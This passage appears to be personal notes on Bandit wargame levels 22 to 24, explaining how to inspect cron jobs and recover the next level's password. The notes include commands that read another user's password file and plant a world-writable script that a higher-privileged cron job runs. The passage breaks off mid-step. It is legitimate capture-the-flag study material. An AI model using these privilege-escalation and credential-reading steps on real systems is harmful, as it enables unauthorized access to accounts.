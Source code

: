 	$ ls -al /etc/cron.d
		// jobs.
	$ cat /etc/cron.d/cronjob_bandit22
		// cronjob which executes.
	$ cat <mentioned_script_in_the_cronjob>
		// password stores to a different directory on the execution of script.
	$ cat <dir_path>
		// password

---
### Bandit22 -> Bandit23
##### objective
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
##### Solution
After reverse engineering the cronjob we got a script which runs and store the password of user who executed it in /tmp directory with name of  md5 hash of `I am user <executed_user_username>`. If we try to execute it. It stores our bandit22 password in `/tmp/<md5hash of I am user bandit22>`. Now looking at this we can create a hash for user bandit23 and directly read its password.
##### command

	$ cat /etc/cron.d/cronjob_bandit23
		// cronjobs of bandit23.
	$ cat /usr/bin/<script_name>
		// script 
	$ bash /usr/bin/<script_name>
		// stored password of bandit22 to  /tmp/<hash>
		// from this line  "mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)" copy from echo to 1 and change $myname to bandit23
	$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
		// hash of I am user bandit23 generated lets try reading the directory where its password get stored.
	$ cat /tmp/<generated_hash>
		// password of bandit23

---
### Bandit23 -> Bandit24
##### objective
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
##### Solution
After reading the script. We get to know that if last if condition the file is getting executed. So if we have a script that will get executed by bandit24 So we as we know all the pass in bandit_pass we can create a script to execute and store the password in our specified folder. We cannot create a file in home so we need to create a dir in /tmp folder then we can create our script and move it to `<bandit24_dir_path_in_the_script.>`
##### command

	$ cat /etc/cron.d/cronjob_bandit24
		// cron job
	$ cat <corn_job_script>
		// script content. Analyse
	$ mkdir /tmp/test
		// create a dir name test in /tmp
	$ cd /tmp/test
	$ touch getbandit24pass.sh
	$ echo "cat /etc/bandit_pass/bandit24 > /tmp/test/bandit24Password" >> getbandit24pass.sh
		// adding cat command to read password and store in our /tmp/test folder in a file called bandit24Password
	$ chmod 777 getbandit24pass.sh
		// this will make this file executable by anyone.
	// No we will cp our file to the folder.